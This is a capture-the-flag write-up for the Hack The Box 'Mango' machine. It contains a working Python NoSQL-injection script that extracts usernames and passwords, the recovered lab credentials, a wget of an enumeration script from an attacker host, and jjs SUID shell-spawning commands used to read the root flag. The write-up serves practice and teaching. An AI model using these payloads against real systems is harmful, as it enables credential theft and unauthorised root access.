 ```yaml
---
layout: post
title: "MANGO - Linux Easy Hack The Box writeup"
date: 2020-04-21
categories:
    - htb
    - linuxbox
tags:
    - easy_box
    - linux_box
    - htb
---
```


## Machine Details:
**IP Address :** 10.10.10.162

## Flags:
User: 79bf31c6

Root: 8a8ef79a

## Hints:
Name of the Machine - might be related to MongoDB.
SSL certificates


# Take Away
* Inspect the HTTPs website - certificates
* Make a habit of registering the hostnames locally.
* Look more into the home folder of the user, likely contains some hint

# Recon:
## nmap
scan command: `nmap -p- `
```
scan results
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)      
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))  
443

```

## Web Page found:
Https has some unknown certificate: https://10.10.10.162/

It talks about staging-order.mango.htb, added this as an hostname to /etc/hosts

Voila, there is an webpage (which was previously not present) in the http:// and not https:// webpage.

http://staging-order.mango.htb/

Has a log in screen, might be related to Mongo DB.


# Foothold :
For the login web page, Trying to use: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
the python script gives erroneous results.

The python script from https://book.hacktricks.xyz/pentesting-web/nosql-injection Gave proper output :)

## Script Used:
Notice: I guessed the name admin as the username from the certificate, and mango since the name of the machine is mango. :) - if it fails will enumerate the username as well.
```python
import requests
import string

url = "http://staging-order.mango.htb"
headers = {"Host": "staging-order.mango.htb"}
cookies = {"PHPSESSID": "k90e8p8k65a6b0b1rgbck1tutk"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"", "login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                print("pass",c)
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames

usernames = ["admin","mango"]
for u in usernames:
    get_password(u)

```

Was able to find the passwords:
```
admin : t9KcS3>!0B#2
mango : h3mXK8RhU~f{]f5H
```

Screen-Shot of the script output.

![f4bc96690381ae8e708dfd9567e1a274.png](../../_resources/75f312370d134f34bd6500062a08d5f5.png)


Logging into the website gave:

![38e6dd193b053e4ddcbe00572afa2b08.png](../../_resources/e593df41839d40feb9c2276e464bc6ef.png)

# User:

SSH into the box with the previous passwords:
admin - fails
mango - works :)

```
su admin
cat /home/admin/user.txt
79bf31c6c6
```

# Priv Esc:

su admin
password is the one found above.


# Root:

Checked a bunch of stuffs did not help corntab looks to be running. Might come back to this latter.

Will try to run the LinuxEnum Script.

```
Attacker Machine:
cd /root/HTB/LOCAL/LinEnum
python -m SimpleHTTPServer 8080

Target Machine:
wget http://10.10.15.72:8080/LinEnum.sh
```
Interesting Findings:
```


[+] Possibly interesting SGID files:
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

[+] Possibly interesting SUID files:                                              
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs      
```

Lets try:
```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

This Freezes but we see #

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc ls /root/').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

Did not work :(

sh -c 'cp $(which jjs) .; chmod +s ./jjs'
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh id').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p cat /root/root.txt').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh id').waitFor()
Java.type('java.lang.Runtime').getRuntime().exec('ls -la /root/').waitFor()
```

looked more into the home folder of the user.

```
ls -la /home/admin
found a file for jjs history; found this code snippet..

var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }

```

Works :)
Owned the Root.
